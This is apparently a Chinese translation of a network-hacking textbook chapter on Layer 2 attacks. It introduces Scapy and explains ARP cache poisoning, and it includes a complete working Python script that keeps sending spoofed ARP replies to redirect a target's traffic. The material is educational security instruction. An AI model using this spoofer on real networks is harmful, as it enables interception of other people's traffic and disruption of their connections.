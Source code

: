 # Python网络攻防之第二层攻击

本章节节选翻译自_《Understanding Network Hacks: Attack and Defense with Python》_中的第四章_Layer 2 Attacks_。该书通过网络层次划分介绍漏洞，并使用`Python`编写相关利用工具进行网络攻防，每小节均按照“`原理--代码--解释--防御`”的结构行文，此书也可与_《Python黑帽子:黑客与渗透测试编程之道》_相互参照学习，相信会达到较好的效果呦。另译者水平有限，如有错误还请指正与海涵。

0x00 摘要
=======

* * *

在本章第二层攻击当中，我们将进入网络`hacking`的奇幻之旅。让我们回顾一下，第二层是负责在以太网中，使用MAC地址来发送数据包。除了`ARP`攻击，我们将探讨交换机是如何应对`DOS`攻击的，以及如何逃逸出`VLAN`环境。

0x01 需求模块
=========

* * *

在`Python`中，你不必在意原始套接字或网络字节顺序，借由`Philippe Biondi`编写的`Scapy`，具有世界上最好的数据包生成器，你可以轻松地定制数据包。既不像在`Libnet`和`C`中那样需要指针运算，也不像在`RawIP`和`Perl`中，或者是在`Scruby`和`Ruby`中，你会被有限的几种协议所束缚。`Scapy`可以构造从`ARP`到`IP/ICMP`，再到`TCP/UDP`和`DNS/DHCP`等所有`OSI`层上的数据包，甚至是更不常见的协议也同样被支持，比如`BOOTP`,`GPRS`,`PPPoE`,`SNMP`,`Radius`,`Infrared`,`L2CAP/HCI`,`EAP`。

现在让我们在第二层网络上，使用`Scapy`来制造一些麻烦吧！首先你需要用如下的命令安装它：

```
pip install Scapy

```

现在你将步入经典著名的中间人攻击！

0x02 ARP-Cache-Poisoning
========================

* * *

如果一台主机想要发送`IP`数据包到另一台主机，就必须预先通过使用`ARP`协议请求目的`MAC`地址。这个询问会向网络中的所有成员广播。在一个完美的世界中，只有应答的主机是所需的目的主机。在一个不那么完美的世界中，攻击者会每隔几秒向它的受害者发送一个`ARP`应答报文，但是是以它自己的`MAC`地址作为响应，从而重定向该连接到其自身。因为大多数的操作系统都接受它们从未询问过的应答报文，所以该攻击才会生效！

```
#!/usr/bin/python
import sys
import time
from scapy.all import sendp, ARP, Ether    

if len(sys.argv) < 3:
    print sys.argv[0] + ": <target> <spoof_ip>"
    sys.exit(1)    

iface = "eth0"
target_ip = sys.argv[1]
fake_ip = sys.argv[2]    

ethernet = Ether()
arp = ARP(pdst=target_ip,
                psrc=fake_ip,
                op="is-at")
packet = ethernet / arp    

while True:
        sendp(packet, iface=iface)
        time.sleep(10)

```
